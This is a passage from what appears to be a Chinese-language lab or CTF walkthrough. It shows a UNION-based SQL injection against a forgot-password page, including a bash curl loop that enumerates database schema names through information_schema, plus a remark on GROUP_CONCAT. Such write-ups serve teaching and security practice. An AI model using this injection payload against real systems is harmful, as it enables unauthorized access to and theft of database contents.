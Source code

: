 发现到了第四列的时候，出现了有关邮箱的格式。

[![](assets/1703640271-a736cda43e099907fa89246ef0b48fea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155542-2ad0ddec-a3c4-1.png)

使用脚本枚举数据库。

```bash
for i in {0..100}; do curl -s http://10.10.10.31/cmsdata/forgot.php --data-urlencode "email=a@b.c' UNiON SELECT 1,schema_name,3,'a@b.c' from information_schema.schemata limit ${i},1;-- -" | grep '<h2>' | awk '{print $5}' | grep -v "^with$" || break; done | cut -d'>' -f2
```

[![](assets/1703640271-e0d2287d387d4c71726c8bc2d2e5e12f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155602-36e4a3a2-a3c4-1.png)  
使用 GROUP\_CONCATSQL 函数，它将一整列合并为一个结果。

[![](assets/1703640271-e4903c63bdcb4ec06afa3ecb8c57924c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155552-30be3934-a3c4-1.png)
